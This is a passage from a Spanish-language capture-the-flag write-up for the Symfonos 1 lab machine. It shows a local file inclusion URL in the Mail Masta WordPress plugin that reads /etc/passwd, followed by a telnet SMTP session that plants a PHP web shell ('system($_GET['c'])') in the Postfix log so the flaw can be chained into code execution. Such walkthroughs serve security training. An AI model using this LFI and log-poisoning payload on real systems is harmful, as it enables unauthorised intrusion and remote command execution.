 En el browser simplemente hay que entrar a la siguiente URL para poder leer archivos del sistema:

---

>**``http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd``**

---

![img]({{ '/assets/images/Symfonos_1/wordpress_01.png' | relative_url }}){: .center-image }*(/etc/passwd)*

---

Logré incluso filtrar la contraseña del `MySQL` aunque no me sirvió de mucho, por eso lo saqué del post. En realidad hay que combinar esta vulnerabilidad con otra llamada [SMTP Log Poisoning](https://liberty-shell.com/sec/2018/05/19/poisoning/) para lograr una shell reversa.


### **Protocolo SMTP**

---
Como bien explica el post linkeado lo que tenemos que ahcer es envíar un correo por linea de comando y en algún momento de la conversación SMTP hay que insertar un código PHP. Ese código va a quedar guardado en el log del servidor SMTP (Postfix) y en el momento que sea accedido desde el browser y explotando la vulnerabilidad e LFI anteriormente encontrar, el servidor web va a parsear el log y ejecutar el código PHP exactamente cómo código PHP y no cómo un archivo de texto plano.

---

>**``telnet symfonos.local 25``**

---

```console
Trying 10.0.0.138...
Connected to 10.0.0.138.
Escape character is '^]'.
helo pepe
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
250 symfonos.localdomain
mail from: helios@symfonos.local
250 2.1.0 Ok
rcpt to: Helios
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['c']); ?>
.
250 2.0.0 Ok: queued as 6A60840AB3
421 4.4.2 symfonos.localdomain Error: timeout exceeded
Connection closed by foreign host.
```

---
